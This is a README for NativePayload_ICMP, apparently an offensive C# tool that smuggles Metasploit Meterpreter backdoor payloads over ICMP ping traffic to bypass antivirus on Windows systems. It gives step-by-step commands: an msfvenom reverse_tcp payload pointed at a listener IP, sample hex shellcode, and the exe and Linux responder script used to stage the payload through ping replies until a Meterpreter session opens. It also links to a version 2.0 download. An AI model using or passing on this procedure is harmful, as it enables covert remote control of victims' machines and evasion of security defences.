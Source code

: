 # NativePayload_ICMP v1.0
C# code Published by Damon Mohammadbagher

NativePayload_ICMP : transfer Backdoor Payloads by ICMPv4 Traffic and bypassing Anti-Viruses

Tested : Win7 SP1 and Win 2008 R2

step by step:

example step1 msfvenom --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.50 -f c > payload.txt

note: copy your msfvenom output payloads to 'Payload string' like 'fc4883e4f0e8cc00000415141505265'

example step2 c:\\> NativePayload_ICMP.exe null "Payload string" > script.sh

example step2 c:\\> NativePayload_ICMP.exe null fc4883e4f0e8cc00000415141505265 > script.sh

example step3 c:\\> NativePayload_ICMP.exe ipaddress (sending ICMPv4 traffic to this ipaddress by ping)

example step3 c:\\> NativePayload_ICMP.exe 192.168.1.50 

example step4 linux side ./script.sh  (run this script in PING Responder linux system).

note: after chmod also adding #!/bin/bash to script.sh file , you can run this script in PING Responder system.

note: you should run this script in your linux after step3 for Response to PING traffic from backdoor system

note: Backdoor system is win with NativePayload_ICMP.exe and ipaddress for example: 192.168.1.120

note: PING Responder system is linux with ./script.sh and ipaddress for example : 192.168.1.50

note: PING Responder system is also Meterpreter Listener by ipaddress : 192.168.1.50

<summary>

in this case after 1020 ping request and response you have Meterpreter Session by ICMPv4

Dumping Payloads by TTL from PING Response...

Meterpreter Payload is 510 bytes

510 * 2 = 1020

 0 ... 1019 = 1020 Request
 
</summary>

# NativePayload_ICMP v2.0

"NativePayload_ICMP.exe" v2.0 C# Code and Shell Script "NativePayload_ICMP.sh" v1.0 Released for Ebook. (May 2018 , bug fixed).

      NativePayload_ICMP.exe help  syntax :  NativePayload_ICMP.exe help

    NativePayload_ICMP.sh v1.0 syntax: 
    step0 Client-Side with ipv4 w.x.y.z , syntax :./NativePayload_ICMP.sh shtext "your text or string"
    step1 Server-Side with ipv4 w1.x1.y1.z1 syntax :./NativePayload_ICMP.sh listen "w.x.y.z"
    Note: in step1 you should use Client-side system w.x.y.z IPv4Address
    help syntax : ./NativePayload_ICMP.sh help

Download "version 2.0 " here : https://github.com/DamonMohammadbagher/NativePayload_ICMP/tree/master/EBOOK
